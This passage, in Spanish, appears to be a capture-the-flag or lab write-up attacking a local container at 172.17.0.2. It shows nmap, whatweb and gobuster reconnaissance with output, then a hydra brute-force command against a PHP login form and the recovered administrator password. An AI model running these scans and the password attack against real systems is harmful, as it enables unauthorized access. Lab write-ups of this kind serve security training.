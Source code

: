 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  tcpwrapped
```
---

## Enumeracion de [Servicio Web Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
```bash
/images/              (Status: 200) [Size: 5911]
/icons/               (Status: 403) [Size: 275]
/scripts/             (Status: 200) [Size: 1329]
[ERROR] Get "http://172.17.0.2/10/": read tcp 172.17.0.1:48584->172.17.0.2:80: read: connection reset by peer
[ERROR] Get "http://172.17.0.2/cgi-bin/": read tcp 172.17.0.1:48610->172.17.0.2:80: read: connection reset by peer
```

Tenemos esta url :
```bash
http://172.17.0.2/index.php
```

Ahora en el apartado **sobremi** de la pagina que nos lleva en un panel de login:
```bash
http://172.17.0.2/sobre-mi/sms.php
```

Realizamos un ataque de fuerza bruta para este panel de inicio de sesion:
```bash
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form '/sobre-mi/login.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos.' -F -V -t 64 -I -u
```
### Credenciales Encontradas
```bash
80][http-post-form] host: 172.17.0.2   login: administrator   password: panther
```
